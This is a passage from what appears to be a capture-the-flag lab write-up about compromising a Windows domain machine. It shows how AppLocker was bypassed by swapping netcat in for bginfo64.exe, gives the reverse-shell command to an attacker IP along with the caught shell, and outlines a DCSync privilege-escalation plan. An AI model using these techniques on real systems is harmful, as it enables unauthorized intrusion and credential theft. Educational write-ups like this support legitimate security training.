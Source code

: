     ...[snip]...
    

### Shell

It took me a bit to figure out how to turn this into a shell. I can’t just
call `nc64.exe` from the web directory because it won’t pass AppLocker. I
can’t use PowerShell because even though I can sign it and it will run, the
firewall will block the connections outbound.

Then I realized I could try to overwrite `bginfo64.exe` with `nc64.exe` and
run it from there. While trying to do that, it failed because the file was
still in use - my current shell! That means it’s actually still `nc64.exe`.

I’ll update the top of my local copy of the script to:

    
    
    C:\share\Bginfo64.exe -e cmd 10.10.14.6 9004
    

I’ll upload it, sign it, and trigger it. And about 15 seconds later, I get a
shell:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 9004
    Listening on 0.0.0.0 9004
    Connection received on 10.10.11.147 62144
    Microsoft Windows [Version 10.0.20348.643]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Get-bADpasswords>whoami
    windcorp\bpassrunner
    

## Shell as Administrator

### Strategy

The `Get-bADpasswords` [GitHub README](https://github.com/improsec/Get-
bADpasswords) says that running it:

> Requires ‘Domain Admin’ privileges or similar, e.g. ‘Domain Controller’ or
> delegated Domain-level permissions for both “Replicating Directory Changes”
> and “Replicating Directory Changes All”, to successfully fetch passwords
> from the Active Directory database.

That means this user should be able to run a DCSync attack.

### DCSync

#### From Shell

This is actually quite easy to do from a shell as the user with privileges
using `Get-ADReplAccount`:

    
    
